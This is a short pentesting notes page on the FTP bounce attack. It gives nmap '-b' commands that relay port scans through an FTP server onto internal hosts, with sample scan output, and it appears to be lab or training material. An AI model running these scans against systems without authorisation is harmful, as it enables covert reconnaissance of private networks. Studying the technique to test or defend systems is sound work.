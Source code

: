 # FTP Bounce Attack

* a network attack that uses FTP servers to deliver outbound traffic to another device on the network.
  * The attacker uses a `PORT` command to trick the FTP connection into running commands and getting information from a device other than the intended server



<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Attack

* [nmap.md](nmap.md "mention")

```shell-session
nmap -Pn -v -n -p80 -b anonymous:password@10.10.110.213 172.17.0.2
```

```shell-session
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-27 04:55 EDT
Resolved FTP bounce attack proxy to 10.10.110.213 (10.10.110.213).
Attempting connection to ftp://anonymous:password@10.10.110.213:21
Connected:220 (vsFTPd 3.0.3)
Login credentials accepted by FTP server!
Initiating Bounce Scan at 04:55
FTP command misalignment detected ... correcting.
Completed Bounce Scan at 04:55, 0.54s elapsed (1 total ports)
Nmap scan report for 172.17.0.2
Host is up.

PORT   STATE  SERVICE
80/tcp open http

<SNIP>
```

```
nmap -b <name>:<pass>@<ftp_server> <victim>
```

```
nmap -Pn -v -p 21,80 -b ftp:ftp@10.2.1.5 127.0.0.1 #Scan ports 21,80 of the FTP
```

```
nmap -v -p 21,22,445,80,443 -b ftp:ftp@10.2.1.5 192.168.0.1/24 #Scan the internal network (of the FTP) ports 21,22,445,80,443
```

## Reference

* https://www.geeksforgeeks.org/what-is-ftp-bounce-attack/
* https://book.hacktricks.xyz/network-services-pentesting/pentesting-ftp/ftp-bounce-attack
